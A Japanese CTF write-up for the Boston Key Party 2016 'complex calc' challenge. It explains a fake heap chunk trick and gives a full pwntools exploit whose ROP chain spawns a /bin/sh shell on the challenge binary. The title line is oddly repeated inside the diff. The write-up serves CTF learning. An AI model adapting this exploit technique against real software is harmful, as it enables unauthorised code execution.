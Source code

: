 ```yaml
---
layout: post
redirect_from:
  - /blog/2017/03/07/boston-key-party-2016-complex-calc/
date: "2017-03-07T15:50:38+09:00"
tags: [ "ctf", "writeup", "pwn", "boston-key-party-ctf", "heap" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/complex-calc-5" ]
---
```


# Boston Key Party CTF 2016: complex calc

適当にそれっぽくしてたらいつの間にか解けた。

## problem

[Boston Key Party CTF 2016: simple calc](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/simple-calc-5)の続き。

バイナリはほぼ一致していて、以下だけが異なる。
これによりstackが壊れた後の`free(buf);`を`free(NULL);`にしてやり過ごすことができない。

```
$ diff <(objdump -d -M intel simple-calc) <(objdump -d -M intel complex-calc)
2c2
< simple-calc:     file format elf64-x86-64
---

# Boston Key Party CTF 2016: complex calc
> complex-calc:     file format elf64-x86-64
22761,22762c22761,22762
<   4156e0:	48 85 ff             	test   rdi,rdi
<   4156e3:	0f 84 af 00 00 00    	je     415798 <__cfree+0xc8>
---

# Boston Key Party CTF 2016: complex calc
>   4156e0:	0f 1f 00             	nop    DWORD PTR [rax]
>   4156e3:	66 0f 1f 44 00 00    	nop    WORD PTR [rax+rax*1+0x0]
```

## solution

addressが既知な適当な位置に`free`に渡せるchunkっぽい構造を作る必要がある。

書き込みが可能のそのような空間は計算の仮定で使われる以下の静的変数のみである。
ここに作る。

``` c
int add [3]; // 0x6c4a80
int divv[3]; // 0x6c4a90
int mul [3]; // 0x6c4aa0
int sub [3]; // 0x6c4ab0
```

まず先頭の`add`に$33$ (chunk size $32$byte + `PREV_INUSE` bit $1$)を書き込む。
次のchunkが位置することになる`divv`, `mul`, `sub`のあたりは、`PREV_INUSE`を真にするため適当な奇数で埋めておく。
これで通る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='complex-calc')
args = parser.parse_args()
context.log_level = args.log_level
elf = ELF(args.binary)

# int add [3]; 0x6c4a80
# int divv[3]; 0x6c4a90
# int mul [3]; 0x6c4aa0
# int sub [3]; 0x6c4ab0

# p = remote(args.host, args.port)
p = process(args.binary)
p.recvuntil('Expected number of calculations: ')
p.sendline('255')
def calc(op, x, y):
    p.recvuntil('=> ')
    p.sendline(str({ '+': 1, '-': 2, '*': 3, '/': 4 }[op]))
    p.recvuntil('Integer x: ')
    p.sendline(str(x))
    p.recvuntil('Integer y: ')
    p.sendline(str(y))
def write64(value):
    for z in [ u32(p64(value)[:4]), u32(p64(value)[4:]) ]:
        for x in range(0x100):
            y = (x - z) % 0x100000000
            if x >= 40 and y >= 40:
                calc('-', x, y)
                break
        else:
            assert False

write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(0x6c4a90) # free
write64(u64('AAAAAAAA'))
write64(1) # rbp

# write /bin/sh
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000 - 8)
write64(0x44db34) # pop rax ; ret
write64(u64('/bin/sh\0'))
write64(0x40dc26) # mov qword ptr [rdi + 8], rax ; ret

# sys_execve
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000)
write64(0x401c87) # pop rsi ; ret
write64(0)
write64(0x437a85) # pop rdx ; ret
write64(0)
write64(0x44db34) # pop rax ; ret
write64(59) # sys_execve
write64(0x4648e5) # syscall

# make chunk
calc('+', 40+33, -40)
calc('-', 41, 41)
calc('/', 41, 41)
calc('*', 41, 41)

p.recvuntil('=> ')
p.sendline('5')
time.sleep(1)
p.sendline('id')
p.interactive()
```
